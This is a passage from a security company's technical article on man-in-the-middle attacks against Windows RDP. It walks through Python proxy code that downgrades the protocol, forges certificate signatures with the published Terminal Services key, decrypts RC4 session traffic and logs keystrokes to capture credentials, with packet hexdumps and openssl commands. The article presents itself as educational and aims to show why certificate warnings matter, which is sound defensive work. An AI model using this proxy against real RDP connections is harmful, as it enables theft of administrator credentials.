





Attacking RDP
=============

The Remote Desktop Protocol (RDP) is used by system administrators everyday
to log onto remote Windows machines. Perhaps most commonly, it is used to
perform administrative tasks on critical servers such as the domain
controller with highly privileged accounts, whose credentials are
transmitted via RDP. It is thus vital to use a secure RDP configuration.

We at SySS regularly observe that due to misconfigurations, system
administrators in an Active Directory environment are routinely presented
with (and ignore) certificate warnings like this:

If warnings like these are a common occurrence in your environment, you
won't be able to recognize a real Man-in-the-Middle (MitM) attack.

This article was written to show you how important it is to take certificate
warnings seriously and how to securely configure your Windows landscape. The
intended audience is system administrators, pentesters and security
enthusiasts. While not necessary, it is recommended that you have a firm
understanding of the following subjects:

* Public key cryptography as well as symmetric cryptography (RSA and RC4)
* SSL
* x509 certificates
* TCP
* Python
* Hexadecimal numbers and binary code

We will demonstrate how a MitM can sniff your credentials if you aren't
careful. None of this is particularly new - it even has been done before,
for example by [Cain](http://www.oxid.it/cain.html). However, Cain is rather
old, closed source and only available for Windows. We want to analyze all
the gory details and relevant inner workings of RDP and simulate a real
attack on it as closely as possible.

It should go without saying that the findings in this article must not be
used to gain unauthorized access to any system you do not own. They may only
be used for educational purposes with the full consent of the systems'
owner. Otherwise, you will most likely break the law depending on your
jurisdiction.

A first look at the protocol
----------------------------

Let's fire up Wireshark and see what happens when we connect to a server via
RDP:

As we can see, the client starts with a suggestion of security protocols to
use for the RDP session. We differentiate these three protocols:

* Standard RDP security
* Enhanced RDP security or TLS Security
* CredSSP

In this case, the client is capable of the first two protocols.  Note that
standard RDP security is always possible and does not need to be advertised
by the client. TLS, or "enhanced RDP security", is simply standard RDP
security wrapped inside an encrypted TLS tunnel. By the way, I'll be using
the terms SSL and TLS interchangeably throughout this article.

CredSSP is also inside an TLS tunnel, but instead of transmitting the
password in the protected tunnel, NTLM or Kerberos is used for
authentication. This protocol is also referred to as Network Level
Authentication (NLA).

Early user authentication is a feature that allows the server to deny access
even before any credentials (except for the username) have been submitted, for
example if the user does not have the necessary remote access privileges.

In our Wireshark session, we can see that an SSL handshake is performed after
client and server have agreed on using enhanced RDP security. For this, we
right click on the first packet after the negotiation packets, and decode
the TCP stream as SSL:

So if we want to MitM an RDP connection, we can't simply use an SSL proxy,
because the proxy needs to be aware of the RDP. It needs to recognize when
to initiate the SSL handshake, similarly to StartTLS in SMTP or FTP. We
choose Python to implement such a proxy. For this we simply create a server
socket that the victim's client connects to, and a client socket that
connects to the actual server. We forward the data between these sockets and
wrap them in an SSL socket if necessary. Of course, we will be closely
inspecting and possibly modifying said data.

The first thing we'll want to modify is the client's protocol capabilities.
The client may want to tell the server that it can do CredSSP, but we'll
change that on the way to the server to standard RDP security. And in the
default configuration, the server will happily comply.

Building a Python MitM proxy for RDP
------------------------------------

The main loop of our Python script will roughly look like this:

    def run():
        open_sockets()
        handle_protocol_negotiation()
        if not RDP_PROTOCOL == 0:
            enableSSL()
        while True:
            if not forward_data():
                break

    def forward_data():
        readable, _, _ = select.select([local_conn, remote_socket], [], [])
        for s_in in readable:
            if s_in == local_conn:
                From = "Client"
                to_socket = remote_socket
            elif s_in == remote_socket:
                From = "Server"
                to_socket = local_conn
            data = s_in.recv(4096)
            if len(data) == 4096:
                while len(data)%4096 == 0:
                    data += s_in.recv(4096)
            if data == b"": return close()
            dump_data(data, From=From)
            parse_rdp(data, From=From)
            data = tamper_data(data, From=From)
            to_socket.send(data)
        return True

    def enableSSL():
        global local_conn
        global remote_socket
        print("Enable SSL")
        local_conn = ssl.wrap_socket(
            local_conn,
            server_side=True,
            keyfile=args.keyfile,
            certfile=args.certfile,
        )
        remote_socket = ssl.wrap_socket(remote_socket)

The function `run()` opens the sockets, handles the protocol negotiation and
enables SSL if necessary. Afterwards, the data is simply being forwarded
between the two sockets. The `dump_data()` function prints the data as a
hexdump to the screen if the debug flag is set. `parse_rdp()` extracts
interesting information from that data, and `tamper_data()` might make
modifications to it.

Basic cryptography
------------------

Because we'll need it for breaking standard RDP security, I want to quickly
cover the basics of RSA. You can skip this section if you want.

In RSA, encryption, decryption and signing are purely mathematical
operations and work on simple integers. Just keep in mind that all of
these operations are performed on [finite
groups](https://en.wikipedia.org/wiki/Finite_group).

When you generate an RSA key pair, you need to find two large prime numbers,
$p$ and $q$. You take their product, $n=pq$ (this is called the modulus),
compute $\phi(n)=(p-1)(q-1)$ (the Euler totient function) and choose an
integer $e$ that is co-prime to $\phi(n)$. Then you need to find the number
$d$ that satisfies
$$e \cdot d = 1 \quad (\mod\: \phi(n)).$$

The number $d$ is the private key while $e$ and $n$ make up the public key.
Of course, theoretically $d$ can be reconstructed from $n$ and $e$, but
$\phi(n)$ is very hard to compute unless you know $p$ and $q$. That is why
the security of RSA depends crucially on the difficulty of factoring large
numbers. So far, no one knows how to factor large numbers efficiently --
unless you have a working [quantum
computer](https://en.wikipedia.org/wiki/Shor's_algorithm).

To encrypt a message $m$, we raise it to the power $e$ modulo $n$:
$$c = m^e \quad (\mod\: n)$$

To decrypt a cipher text, we do the same with the private exponent $d$:
$$m = c^d \quad (\mod\: n)$$

Signing is the same as decrypting. You just perform it on the hash of a
message.

Because these operations can be quite expensive if $m$ or $c$ are much
larger than 256 bit or so, you typically only use RSA to encrypt symmetric
keys. The actual message is then encrypted by using a symmetric cipher with
a freshly generated key.

Breaking standard RDP security
------------------------------

Actually, there isn't much to break. It's already completely broken by
design, and I'll tell you why.

The way standard RDP security works is this:

* The client announces its intention to use the standard RDP security
  protocol.
* The server agrees and sends its own RSA public key  along with a "Server
  Random" to the client. The collection of the public key and some other
  information (such as the hostname, etc.) is called a "certificate". The
  certificate is signed using the Terminal Services private key to ensure
  authenticity.
* The client validates the certificate by using the Terminal Services public
  key. If successful, it uses the server's public key to encrypt the "Client
  Random" and sends it to the server.
* The server decrypts the Client Random with its own private key.
* Both server and client [derive the session
  keys](https://msdn.microsoft.com/en-us/library/cc240785.aspx) from the
  Server Random and the Client Random. These keys are used for symmetrically
  encrypting the rest of the session.

Note that all of this happens in plain text, not inside an SSL tunnel.
That's fine in principle, Microsoft simply tried to implement the same
techniques which SSL employs themselves. However, [cryptography is
hard](https://www.schneier.com/essays/archives/1997/01/why_cryptography_is.html),
and as a general rule, you should always rely on established solutions that
stood the test of time instead of implementing your own. And Microsoft
promptly made a cardinal mistake. It is so obvious that I can't understand
why they did it like that.

Can you spot the mistake here? How does the client get the Terminal Services
public key? The answer is: It comes pre-installed. That means it's the same
key on every system. And _that_ means the private key is also always the same!
So it can be extracted from any Windows installation. In fact, we don't even
need to do that, since by now Microsoft has decided to officially publish it
and we can simply look it up at
[microsoft.com](https://msdn.microsoft.com/en-us/library/cc240776.aspx).

The symmetric encryption after the session keys have been derived can be
done on [several levels](https://msdn.microsoft.com/en-us/library/cc240787.aspx):
None, 40 bit RC4, 56 bit RC4, 128 bit RC4, or 3DES (they call it FIPS). The
default is 128 bit RC4 ("High"). But if we can eavesdrop on the key, it
doesn't matter how strong the encryption is at all.

So the plan is clear: When encountering the server's public key, we
quickly generate our own RSA key pair of the same size and overwrite the
original key with it. Of course, we need to generate a signature of our
public key using the Terminal Services private key and replace the original
signature with it. Then, after the client successfully validates our bogus
public key, we receive its Client Random. We decrypt it using our private
key, write it down for later and reencrypt it using the server's public key.
That's it! From then on we can passively read the encrypted traffic between
client and server.

The only challenge is to properly parse the RDP packets. Here is the one
that we're interested in:

<pre>
From server:
00000000: 03 00 02 15 02 F0 80 7F  66 82 02 09 0A 01 00 02  ........f.......
00000010: 01 00 30 1A 02 01 22 02  01 03 02 01 00 02 01 01  ..0...".........
00000020: 02 01 00 02 01 01 02 03  00 FF F8 02 01 02 04 82  ................
00000030: 01 E3 00 05 00 14 7C 00  01 2A 14 76 0A 01 01 00  ......|..&#x2A;.v....
00000040: 01 C0 00 4D 63 44 6E 81  CC 01 0C 10 00 04 00 08  ...McDn.........
00000050: 00 00 00 00 00 01 00 00  00 03 0C 10 00 EB 03 04  ................
00000060: 00 EC 03 ED 03 EE 03 EF  03 02 0C AC 01 02 00 00  ................
00000070: 00 02 00 00 00 20 00 00  00 78 01 00 00 D9 5E A3  ..... ...x....^.
00000080: AA D6 F6 80 EB 0B 3E 1D  8D 30 B3 AB 6A AE 26 07  ......>..0..j.&.
00000090: EF 89 3D CB 15 98 AE 22  7E 4B 2B AF 07 01 00 00  ..=...."~K+.....
000000A0: 00 01 00 00 00 01 00 00  00 06 00 1C 01 <b>52 53 41</b>  .............<b>RSA</b>
000000B0: <b>31 08 01 00 00 00 08 00  00 FF 00 00 00 01 00 01  1...............</b>
000000C0: <b>00 AF 92 E8 20 AC D5 F7  BB 9F CF 6F 6E 2C 63 07  .... ......on,c.</b>
000000D0: <b>34 CC A7 7A 21 AB 29 8A  1B 5D FE FD 43 F1 10 FC  4..z!.)..]..C...</b>
000000E0: <b>DB C6 D6 4B F1 B7 E1 B9  5E F7 68 46 58 EF 09 39  ...K....^.hFX..9</b>
000000F0: <b>08 03 0F 54 0C 58 FA 3E  A3 4A 50 F6 91 E9 41 F8  ...T.X.>.JP...A.</b>
00000100: <b>89 1D CC 14 3C 64 0B 1D  2B 0C 98 DF 63 D6 A6 72  ....&lt;d..+...c..r</b>
00000110: <b>42 ED AC CB 88 44 85 47  D3 89 45 BA BD 9F 2D D0  B....D.G..E...-.</b>
00000120: <b>D5 0E 24 09 AD 02 2B 9D  37 18 DD 12 8B F6 21 5B  ..$...+.7.....![</b>
00000130: <b>20 47 33 52 9C 00 32 BA  E7 83 80 7F AA 3C F3 C7   G3R..2......<..</b>
00000140: <b>95 DD 84 C2 4E 5E 0C 27  52 74 FC 87 0E 10 D9 42  ....N^.'Rt.....B</b>
00000150: <b>19 0D F5 77 57 3F 71 4F  9C 34 0F 12 F8 E8 B0 59  ...wW?qO.4.....Y</b>
00000160: <b>F7 CD 09 F9 A5 25 AE 6A  CB E6 CB 88 24 DA D2 46  .....%.j....$..F</b>
00000170: <b>42 21 21 94 2E 6D 42 FF  9F AF 89 E3 BA EC CC DA  B!!..mB.........</b>
00000180: <b>15 71 5D 17 A9 5A 00 59  D4 AD EA E4 93 58 06 5B  .q]..Z.Y.....X.[</b>
00000190: <b>F7 22 2A 1F DD DC C6 27  30 2A 25 10 B1 A8 40 98  ."&#x2a;....'0&#x2a;%...@.</b>
000001A0: <b>6B 24 B6 4E 2A 79 B7 40  27 F4 BE 07 35 80 50 48  k$.N&#x2a;y.@'...5.PH</b>
000001B0: <b>72 A4 0D 2B AA B0 5C 89  C0 96 2A 49 1E BC A1 AB  r..+..\...&#x2a;I....</b>
000001C0: <b>D0 00 00 00 00 00 00 00  00</b> 08 00 48 00 3D 5F 11  <b>.........</b>..H.=&#x5f;.
000001D0: A1 C1 38 09 1B B1 85 52  1E D1 03 A1 1E 35 E7 49  ..8....R.....5.I
000001E0: CC 25 C3 3C 6B 98 77 C2  87 03 C4 F5 78 09 78 F1  .%.&lt;k.w.....x.x.
000001F0: 43 21 07 BD AB EE 8E B0  F6 BC FC B0 A6 6A DD 49  C!...........j.I
00000200: A0 F1 39 86 FE F1 1E 36  3C CE 69 C0 62 00 00 00  ..9....6&lt;.i.b...
00000210: 00 00 00 00 00
</pre>

I highlighted the bytes that represent the public key. The two bytes
directly preceding it represent its length in little-endian byte order
(`0x011c`). As we discussed before, the public key consists of the modulus
and the public exponent. Read the [RDP
specifications](https://msdn.microsoft.com/en-us/library/cc240518.aspx) for
the details on this data structure.

Let's look at the information that is of interest to us. Here, the modulus is:

    00000000: AF92 E820 ACD5 F7BB 9FCF 6F6E 2C63 0734  ... ......on,c.4
    00000010: CCA7 7A21 AB29 8A1B 5DFE FD43 F110 FCDB  ..z!.)..]..C....
    00000020: C6D6 4BF1 B7E1 B95E F768 4658 EF09 3908  ..K....^.hFX..9.
    00000030: 030F 540C 58FA 3EA3 4A50 F691 E941 F889  ..T.X.>.JP...A..
    00000040: 1DCC 143C 640B 1D2B 0C98 DF63 D6A6 7242  ...<d..+...c..rB
    00000050: EDAC CB88 4485 47D3 8945 BABD 9F2D D0D5  ....D.G..E...-..
    00000060: 0E24 09AD 022B 9D37 18DD 128B F621 5B20  .$...+.7.....![ 
    00000070: 4733 529C 0032 BAE7 8380 7FAA 3CF3 C795  G3R..2......<...
    00000080: DD84 C24E 5E0C 2752 74FC 870E 10D9 4219  ...N^.'Rt.....B.
    00000090: 0DF5 7757 3F71 4F9C 340F 12F8 E8B0 59F7  ..wW?qO.4.....Y.
    000000A0: CD09 F9A5 25AE 6ACB E6CB 8824 DAD2 4642  ....%.j....$..FB
    000000B0: 2121 942E 6D42 FF9F AF89 E3BA ECCC DA15  !!..mB..........
    000000C0: 715D 17A9 5A00 59D4 ADEA E493 5806 5BF7  q]..Z.Y.....X.[.
    000000D0: 222A 1FDD DCC6 2730 2A25 10B1 A840 986B  "*....'0*%...@.k
    000000E0: 24B6 4E2A 79B7 4027 F4BE 0735 8050 4872  $.N*y.@'...5.PHr
    000000F0: A40D 2BAA B05C 89C0 962A 491E BCA1 ABD0  ..+..\...*I.....
    00000100: 0000 0000 0000 0000                      ........

The signature is:

    00000000: 3D5F 11A1 C138 091B B185 521E D103 A11E  =_...8....R.....
    00000010: 35E7 49CC 25C3 3C6B 9877 C287 03C4 F578  5.I.%.<k.w.....x
    00000020: 0978 F143 2107 BDAB EE8E B0F6 BCFC B0A6  .x.C!...........
    00000030: 6ADD 49A0 F139 86FE F11E 363C CE69 C062  j.I..9....6<.i.b
    00000040: 0000 0000 0000 0000                      ........

And the Server Random is:

    00000000: D95E A3AA D6F6 80EB 0B3E 1D8D 30B3 AB6A  .^.......>..0..j
    00000010: AE26 07EF 893D CB15 98AE 227E 4B2B AF07  .&...=...."~K+..

All in little-endian byte order. We take note of the Server Random and
replace the other two values.

To generate our RSA key, we'll use `openssl`. I know that there is a Python
libraries for RSA, but it is much slower than `openssl`.

<pre>
$ openssl genrsa 512 | openssl rsa -noout -text
Generating RSA private key, 512 bit long modulus
.....++++++++++++
..++++++++++++
e is 65537 (0x010001)
Private-Key: (512 bit)
modulus:
    00:f8:4c:16:d5:6c:75:96:65:b3:42:83:ee:26:f7:
    e6:8a:55:89:b0:61:6e:3e:ea:e0:d3:27:1c:bc:88:
    81:48:29:d8:ff:39:18:d9:28:3d:29:e1:bf:5a:f1:
    21:2a:9a:b8:b1:30:0f:4c:70:0a:d3:3c:e7:98:31:
    64:b4:98:1f:d7
publicExponent: 65537 (0x10001)
privateExponent:
    00:b0:c1:89:e7:b8:e4:24:82:95:90:1e:57:25:0a:
    88:e5:a5:6a:f5:53:06:a6:67:92:50:fe:a0:e8:5d:
    cc:9a:cf:38:9b:5f:ee:50:20:cf:10:0c:9b:e1:ee:
    05:94:9a:16:e9:82:e2:55:48:69:1d:e8:dd:5b:c2:
    8a:f6:47:38:c1
prime1:
[...]
</pre>

Here we can see the modulus $n$, the public exponent $e$ and the private
exponent $d$. Their representation is in base 16 using the big-endian byte
order. We actually need a 2048 bit key and not 512, but you get the idea.

Forging the signature is easy. We take the MD5 hash of the first six fields
of the certificate, add some constants according to [the
specifications](https://msdn.microsoft.com/en-us/library/cc240778.aspx) and
encrypt it with the _private_ part of the
[Terminal Services
key](https://msdn.microsoft.com/en-us/library/cc240776.aspx). This is how
it's done in Python:

    def sign_certificate(cert):
        """Signs the certificate with the private key"""
        m = hashlib.md5()
        m.update(cert)
        m = m.digest() + b"\x00" + b"\xff"*45 + b"\x01"
        m = int.from_bytes(m, "little")
        d = int.from_bytes(TERM_PRIV_KEY["d"], "little")
        n = int.from_bytes(TERM_PRIV_KEY["n"], "little")
        s = pow(m, d, n)
        return s.to_bytes(len(crypto["sign"]), "little")

The next message we need to intercept is the one containing the encrypted Client
Random. It looks something like this:

<pre>
From client:
00000000: 03 00 01 1F 02 F0 80 64  00 08 03 EB 70 81 10 01  .......d....p...
00000010: 02 00 00 08 01 00 00 <b>DD  8A 43 35 DD 1A 12 99 44</b>  .......<b>..C5....D</b>
00000020: <b>A1 3E F5 38 5C DB 3F 3F  40 D1 ED C4 A9 3B 60 6A  .>.8\.??@....;`j</b>
00000030: <b>A6 10 5A AF FD 17 7A 21  43 69 D0 F8 9B F1 21 A3  ..Z...z!Ci....!.</b>
00000040: <b>F1 49 C6 80 96 03 62 BF  43 54 9D 38 4D 68 75 8C  .I....b.CT.8Mhu.</b>
00000050: <b>EA A1 69 23 2F F6 E9 3B  E7 E0 48 A1 B8 6B E2 D7  ..i#/..;..H..k..</b>
00000060: <b>E2 49 B1 B2 1B BF BA D9  65 0B 34 5A B0 10 73 6E  .I......e.4Z..sn</b>
00000070: <b>4F 15 FA D7 04 CA 5C E5  E2 87 87 ED 55 0F 00 45  O.....\.....U..E</b>
00000080: <b>65 2C C6 1A 4C 09 6F 27  44 54 FE B6 02 1C BA 9F  e,..L.o'DT......</b>
00000090: <b>3B D8 D0 8D A5 E6 93 45  0C 9B 68 36 5C 93 16 79  ;......E..h6\..y</b>
000000A0: <b>0B B8 19 BF 88 08 5D AC  19 85 7C BB AA 66 C4 D9  ......]...|..f..</b>
000000B0: <b>8E C3 11 ED F3 8D 27 60  8A 08 E0 B1 20 1D 08 9A  ......'`.... ...</b>
000000C0: <b>97 44 6D 33 23 0E 5C 73  D4 02 4C 20 97 5C C9 F6  .Dm3#.\s..L .\..</b>
000000D0: <b>6D 31 B2 70 35 39 37 A4  C2 52 62 C7 5A 69 54 44  m1.p597..Rb.ZiTD</b>
000000E0: <b>4C 4A 75 D2 63 CC 52 15  8F 6E 2A D8 0D 61 A5 0A  LJu.c.R..n*..a..</b>
000000F0: <b>47 5B 2A 68 97 7B 1B FF  D3 33 10 49 15 9A D6 2C  G[*h.{...3.I...,</b>
00000100: <b>DF 04 6D 93 21 78 32 98  8B 0B F4 01 33 FB CC 5B  ..m.!x2.....3..[</b>
00000110: <b>83 BA 2D 7F EA 82 3B 00  00 00 00 00 00 00 00     ..-...;........ </b>
</pre>

Again, I highlighted the encrypted Client Random. The four bytes preceding
it represent its length (`0x0108`). Since it has been encrypted with our
certificate, we can easily decrypt it:

    00000000: 4bbd f97d 49b6 8996 ec45 0ce0 36e3 d170  K..}I....E..6..p
    00000010: 65a8 f962 f487 5f27 cd1f 294b 2630 74e4  e..b.._'..)K&0t.

We just need to reencrypt it using the server's public key and substitute it
in the answer before passing it on.

Unfortunately, we're not quite done. We now know the secret Client Random,
but for whatever reason Microsoft decided to not just use that as the
symmetric key. There is an [elaborate
procedure](https://msdn.microsoft.com/en-us/library/cc240785.aspx) to derive
an encryption key for the client, an encryption key for the server and a
signing key. It's boring but straightforward.

After we derive the session keys, we can initialize the s-boxes for the RC4
streams. Since RDP is using a separate key for messages from the server than
for messages from the client, we need two s-boxes. The s-box is an array of
256 bytes that is shuffled in a certain way that depends on the key. Then
the s-box produces a stream of pseudo random numbers, which is xor-ed with
the data stream. My Python implementation looks like this:

    class RC4(object):
        def __init__(self, key):
            x = 0
            self.sbox = list(range(256))
            for i in range(256):
                x = (x + self.sbox[i] + key[i % len(key)]) % 256
                self.sbox[i], self.sbox[x] = self.sbox[x], self.sbox[i]
            self.i = self.j = 0
            self.encrypted_packets = 0

        def decrypt(self, data):
            out = []
            for char in data:
                self.i = (self.i + 1) % 256
                self.j = (self.j + self.sbox[self.i]) % 256
                self.sbox[self.i], self.sbox[self.j] = self.sbox[self.j], self.sbox[self.i]
                out.append(char ^ self.sbox[(self.sbox[self.i] + self.sbox[self.j]) % 256])
            self.encrypted_packets += 1
            if self.encrypted_packets >= 4096:
                self.update_key()
            return bytes(bytearray(out))

        def update_key(self):
            print("Updating session keys")
            # TODO finish this

As you can see, the protocol requires the key to be refreshed after 4096
encrypted packets. I haven't bothered to implement it because I'm only
interested in the credentials as a proof of concept anyway. Feel free to
send me a patch!

Now we have everything we need to read all traffic. We are particularly
interested in packets that contain information about keyboard input events,
i.e. key presses and key releases. What I gathered from the
[specification](https://msdn.microsoft.com/en-us/library/cc746160.aspx) is
that the messages can contain several packets, and that there are slow path
packets (start with `0x03`) and fast path packets (first byte is divisible
by four). A [keyboard input
event](https://msdn.microsoft.com/en-us/library/cc240584.aspx) consists of
two bytes, for example:

    00000000: 01 1F                                             ..

This would mean that the "S" key (`0x1F`) has been released (because the first
byte is `0x01`).

I'm not doing a very good job at parsing those, because sometimes mouse
movement events will be detected as keyboard events. Also, the scancode
needs to be translated to a virtual key code, which depends on the keyboard
type and keyboard layout. This seems highly non-trivial, so I'm not doing
it. I just use [this
map](http://www.millisecond.com/support/docs/v5/html/language/scancodes.htm).
It's good enough for a proof of concept.

Let's try it out. Upon connecting to our bogus RDP server, we already get a
warning that the server's authenticity cannot be verified:

Notice something? It's not an SSL warning. Anyway, we can now see the key
presses:

By the way, this is what Cain is doing.

Breaking enhanced RDP security
------------------------------

To me, downgrading to standard RDP security is unsatisfactory. If I were an
attacker, I'd try to make the attack look as inconspicuous as possible. The
victim will notice a different warning than usual and that it has to
enter their credentials after the connection has already been established.

It always bugged me that I don't see the same SSL warning when I MitM the
RDP connection with Cain. I find it hard to explain to a customer why they
have to take SSL warnings seriously, especially if they use self-signed
certificates which can't possibly be verified, if this MitM tool causes a
completely different warning to be shown.

So let's try to downgrade the connection to enhanced RDP security. For this,
we need our own self-signed SSL certificate, which can be generated by
`openssl`:

    $ openssl req -new -newkey rsa:"$KEYLENGTH" -days "$DAYS" -nodes -x509 \
        -subj "$SUBJ" -keyout privatekey.key -out certificate.crt \
        2> /dev/null

It makes sense to choose a low key length if you generate this certificate
on the fly, because the delay this will cause will be much shorter.

We wrap our Python TCP sockets inside SSL sockets at the right time and
we're done. I said earlier that the standard RDP protocol is being used
